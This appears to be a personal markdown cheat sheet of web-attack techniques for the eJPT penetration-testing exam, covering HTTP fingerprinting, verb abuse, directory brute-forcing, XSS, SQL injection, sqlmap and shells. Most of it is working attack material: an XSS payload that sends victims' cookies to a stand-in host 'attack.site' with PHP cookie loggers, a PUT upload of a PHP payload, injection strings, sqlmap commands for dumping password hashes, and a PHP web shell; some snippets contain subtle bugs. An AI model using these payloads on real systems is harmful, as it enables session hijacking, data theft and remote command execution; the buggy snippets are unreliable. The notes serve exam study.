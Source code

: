 # Web Application Tools
 My list of Web Application tools for the eJPT exam.

-------------------------------------

## *HTTP Protocol and Fingerprinting*
 
1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

-------------------------------------

## *HTTP Verbs - Use in Burpsuite*

### (Can be used on misconfigured web servers)

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

"GET" Example:

    GET /page.php?comman=pwd HTTP/1.1
    Host: www.host.com


"POST" Example:

    POST /login.php? HTTP/1.1
    Host: www.host.com


    username=admin&password=1234


"DELETE" Example:

    DELETE /wp-content/imp.file HTTP/1.1
    Host: www.host.com

"PUT" Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>

-------------------------------------

## *Dirbuster(GUI)/Gobuster/Dirb*

* Search for interesting file types
    * php
    * txt
    * bak
    * old

    $gobuster dir --url http://host.com/ -w /path/to/word.list -x php,txt,old,bak -o output.txt

    $dirb http://host.com/ /path/to/word.list -X php,txt,bak,old -o output.txt

    $dirb https://host.com/ (Simple SSL test)

*Tips: Searh for **Signup pages** and **old configuration files.***

-------------------------------------

## Cross-Site Scripting

* Session Cookies
    * document.cookie - This is where the cookies are stored

    *Display cookie as an alert*
    ``` 
    [<script>alert(document.cookie)</script>]
    ```
    *Victim's Browser* <--- **Inject this piece of code!**
    ```
    <script>
    var i = newImage();
    i.scr="http://attack.site/log.php?="+document.cookie;
    </script>
    ```

    *Attacker's Computer*
    ```
    <?php
    $filename="/tmp/log.txt;
    $fp=fopen($filename, 'a');
    $cookie=$_GET['q'];
    fwrite($fp, $cookie);
    fclose($fp);
    ?>
    ```
    *Alternate code*

    ```
    <?php
    $ip = $_SERVER['REMOTE_ADDR'];
    $browser = $_SERVER['HTTP_USER_AGENT'];

    $fp = fopen('jar.txt', 'a');

    fwrite($fp, $ip.' '. $browser." \n");
    fwrite($fp, urldecode($_SERVER('QUERY_STRING')). " \n\n");
    fclose($fp);
    ?>
    ```
-------------------------------------
## SQL-Injection

*Tip: Look at the source code to check for any IDs such as src="images/***els1***"!*
* SQL Statements

```
SELECT * FROM table WHERE <condition>;
```

Putting comments in statements
```
# Hash symbol
-- Double hyphens followed by a whitespace (add a space and another hyphen "-- -")

Select * FROM table; # Comment
Select * FROM table; -- Another comment
```

* BOOLEAN Attacks

````
SELECT * FROM items WHERE id='' OR '1' = '1'; -- -'
````

* Union Attacks

```
SELECT * FROM items WHERE id='' UNION SELECT null, null, null; -- -'
```

## SQLmap switches

```
Example:

$sqlmap -u "http://10.10.10.10/get.php?id=1234" -p id --technique=U

$sqlmap -u "http://10.10.10.10/login.php" --data "username=admin&password=1234" -p username --technique=B --banner
```

* -u URL
* -p vulnerable parameter
* --data data to be sent through a POST request (username=admin&password=1234)
* --banner Retrieve DBMS banner
* --users Enumerate DBMS users
* --passwords Enumerate DBMS Users hashed passwords
* --dbs Enumerate DBMS databases
* -D Database to enumerate (insert found database name)
* --tables Enumerates tables in the given database name
* -T Table name to enumerate (insert table name. E.g, Users, Accounts, etc)
* --columns Enumerate table columns
* -C Column name to enumerate (E.g., -C username,password)
* --dump Dumps all the table entries
* -r Load HTTP request from a file (Save the request from Burpsuite)
* --flush-session (Flushes the session files for the current target. Restarts the session again)





-------------------------------------

## *Reverse Shell Links*

[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    ?>


